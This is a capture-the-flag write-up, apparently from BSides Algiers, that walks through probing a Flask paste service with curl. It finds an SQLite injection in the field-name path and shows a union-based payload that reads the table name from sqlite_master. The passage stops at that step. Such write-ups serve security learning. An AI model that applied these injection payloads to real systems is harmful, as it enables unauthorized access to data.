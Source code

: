 We can create a paste, delete it, read the entire paste, or only accessing a particular field of the paste (text or title)

Even though this challenge was easy, we took quite a while to solve it, because we went on a totally different path.

Let's start by creating a paste:

```bash
th3jackers$ curl -X POST http://chall.bsidesalgiers.com:8001/paste/new -H "Content-Type: application/json" -d '{"title":"just a title","text":"just a content"}'

{"success":true,"url":"/paste/veisbzgx"}
```

Let's read it 

```bash
th3jackers$ curl http://chall.bsidesalgiers.com:8001/paste/veisbzgx

{"success":true,"text":"just a content","title":"just a title"}
```
After few tries, it seems there is nothing interesting here, let's try reading by field


```bash
th3jackers$ curl http://chall.bsidesalgiers.com:8001/paste/veisbzgx/title

just a title

th3jackers$ curl http://chall.bsidesalgiers.com:8001/paste/veisbzgx/text

just a text
```
Humm ... it's a bit different here, there is no object returned.
We tried injecting some stuff like 1+1 and indeed it returned 2 instead of an error, same thing if we put a string (inside quotes).

we spent some time here trying to figure out how it works, how is it evaluating inputs.

First we thought it was python-related (since this is a Flask app),maybe he is fetching the paste from db, putting it in a dictionary and then trying to access the dictionary by key, but this didn't make much sense.

Then, my team mate tried putting `*` as a field and this is what happened:

```bash
th3jackers$ curl http://chall.bsidesalgiers.com:8001/paste/veisbzgx/*

veisbzgx
```

Finally this was the trigger, my team mate guessed it must be a classic sql injection :p and indeed it was Sqlite, we tried locally and sqlite returned exactly the same output of all the different inputs we tried.

The rest was easy, first get the table name

```bash
th3jackers$ curl "http://chall.bsidesalgiers.com:8001/paste/veisbzgx/name%20from%20sqlite_master%20WHERE%20type='table'%20union%20select%20'x'"

pastes
```
